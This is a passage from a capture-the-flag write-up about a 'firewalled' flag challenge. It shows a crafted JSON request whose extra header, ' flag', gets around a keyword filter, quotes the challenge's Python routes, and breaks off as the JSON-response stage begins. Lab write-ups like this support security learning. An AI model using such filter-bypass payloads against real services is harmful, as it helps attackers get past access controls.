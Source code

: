 Rebuild the container:

```
% docker-compose up --build
```

And now, if we send the following request:

```http
POST /req HTTP/1.1
Host: localhost:8000
Content-Type: application/json
Content-Length: 128

{
    "host":"flag-container",
    "headers":{
        "X-Request":"something",
        " flag": "x"
    },
    "method":"GET",
    "path":"/flag",
    "returnJson":true
}
```

We will see that the **flag** is indeed within the **X-Request** header:

```bash
firewalled-flag-container-1   | [...] something flag: x True
```

## JSON response

So now we need to bypass the second part. We need to get a json response with a **flag** in the **request** element.

```py
@app.route('/flag')
def index():
[!] args = request.args.get('args')

	try:
[!!]	r = requests.post('http://firewalled-curl/req',json=json.loads(args)).json()
		if 'request' in r and 'flag' in r['request'] and 'flag' in request.headers['X-Request']:
			return flag
	except:
		pass
	return 'No flag for you :('
```

The route gets `[!] args` from the request and passes it as a json body to the `[!!] /req` endpoint of **firewalled-curl**.

Let's examine the logic behind the **firewalled-curl** response:

```py
if(isJson(body.decode())): [!!!]
    #something like if 'flag' anywhere in json -- return error
    if(not checkJson(json.loads(body.decode()))):
        return {'success':False,'error':'unsafe json'}
    headers['Content-Type'] = 'application/json'
else:
    headers['Content-Type'] = 'application/octet-stream'


if(returnJson): [!]
    body = base64.b64encode(body).decode()
    return {'statusCode':statusCode,'headers':headers,'body':body,'req':httpRequest.decode()}
```